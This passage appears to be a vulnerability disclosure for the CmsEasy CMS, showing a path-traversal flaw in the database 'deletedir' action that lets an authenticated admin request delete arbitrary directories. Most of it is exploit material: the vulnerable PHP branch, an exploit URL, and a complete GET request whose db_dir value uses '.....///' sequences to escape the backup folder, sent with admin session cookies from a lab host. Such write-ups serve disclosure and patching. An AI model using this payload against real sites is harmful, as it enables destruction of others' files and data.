 ```http
http://127.0.0.1:5678/index.php?case=database&act=deletedir&admin_dir=admin&site=default&db_dir={xxxx}
```



## **POC Construction and Verification**

```php
if(strpos($dir,'databack_') !== false){
            $dir=ROOT.'/data/backup-data/'.$dir;
            front::remove($dir);
            apps::deleteossimg('backup-data/'.$dir);//插件删除
        }
```

In the branch, `$dir=ROOT.'/data/backup-data/'.$dir;`

To avoid damaging the website environment, we create a directory at the same level as `data/backup-data` (which can include substructures) for testing. The following test case uses the directory `111`.

![image-20250129215150855](/assest/cmseasy/cmseasy-2.3.png)



**Constructing the Payload**

```http
GET /index.php?case=database&act=deletedir&admin_dir=admin&site=default&db_dir=databack_2025-01-27-17-17-YTRiYz_7779/.....///.....///11 HTTP/1.1
Host: 192.168.5.6:5678
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fd4dgj9s9ib24l6jil8uakhijd; login_username=admin; login_password=mvgoWX7V4jltNikmT1BjPZKXQx9tSvwsPkbh9wCe8iBaZ2ab18391e6e61e99aff8e10d05e4ad02
Connection: keep-alive

```
